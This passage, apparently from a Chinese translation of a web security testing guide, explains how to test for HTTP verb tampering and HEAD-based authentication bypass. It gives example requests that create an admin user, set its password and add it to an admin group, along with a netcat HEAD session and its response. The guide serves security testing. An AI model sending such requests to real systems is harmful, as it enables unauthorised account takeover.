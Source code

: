 
如果框架或者防火墙或应用不支持"JEFF"方法，那么他应该指向一个错误页面（更好的是返回405响应不允许，或者501响应未实现错误页面）。如果服务器产生正常应答，那么这可能是一个漏洞。


如果测试者觉得系统存在这个漏洞，他们应该发起一些像CSRF一样的攻击来利用这个问题，比如：

* FOOBAR /admin/createUser.php?member=myAdmin
* JEFF /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
* CATS /admin/groupEdit.php?group=Admins&member=myAdmin&action=add


如果足够幸运，使用上面三个命令 - 修改符合适合测试情况的需求 - 一个新的管理员用户将被建立，并分配了密码。


#### 测试HEAD访问控制绕过

找到一个页面含有安全约束控制使通常访问强制返回302跳转到登陆页面或强制登陆。这个测试URL在下面例子中是这么工作的，如同许多web应用那样。然后，如果测试者获得一个200响应却又不是登陆页面，那么他可能绕过了认证和授权过程。

```
$ nc www.example.com 80
HEAD /admin HTTP/1.1
Host: www.example.com

HTTP/1.1 200 OK
Date: Mon, 18 Aug 2008 22:44:11 GMT
Server: Apache
Set-Cookie: PHPSESSID=pKi...; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: adminOnlyCookie1=...; expires=Tue, 18-Aug-2009 22:44:31 GMT; domain=www.example.com
Set-Cookie: adminOnlyCookie2=...; expires=Mon, 18-Aug-2008 22:54:31 GMT; domain=www.example.com
Set-Cookie: adminOnlyCookie3=...; expires=Sun, 19-Aug-2007 22:44:30 GMT; domain=www.example.com
Content-Language: EN
Connection: close
Content-Type: text/html; charset=ISO-8859-1
```


如果攻击者得到 “405 方法不允许” 或 “501 方法未实现”，那么目标（应用/框架/语言/系统/防火墙）是正确工作的。如果返回200响应，而且不存在响应主体，那么很可能应用在没有认证和授权的情况下处理了请求，需要进一步测试。

如果测试者觉得系统存在这个漏洞，他们应该发起一些像CSRF一样的攻击来利用这个问题，比如：

* HEAD /admin/createUser.php?member=myAdmin
* HEAD /admin/changePw.php?member=myAdmin&passwd=foo123&confirm=foo123
* HEAD /admin/groupEdit.php?group=Admins&member=myAdmin&action=add


如果足够幸运，使用上面三个命令 - 修改符合适合测试情况的需求 - 一个新的管理员用户将被建立，并分配了密码，所有过程使用了盲请求提交。


### 测试工具
* NetCat - http://nc110.sourceforge.net
* cURL - http://curl.haxx.se/


### 参考资料
**白皮书**<br>
* RFC 2616: "Hypertext Transfer Protocol -- HTTP/1.1"
* RFC 2109 and RFC 2965: "HTTP State Management Mechanism"
* Jeremiah Grossman: "Cross Site Tracing (XST)" - http://www.cgisecurity.com/whitehat-mirror/WH-WhitePaper_XST_ebook.pdf<br>
* Amit Klein: "XS(T) attack variants which can, in some cases, eliminate the need for TRACE" - http://www.securityfocus.com/archive/107/308433
* Arshan Dabirsiaghi: "Bypassing VBAAC with HTTP Verb Tampering" - http://static.swpag.info/download/Bypassing_VBAAC_with_HTTP_Verb_Tampering.pdf
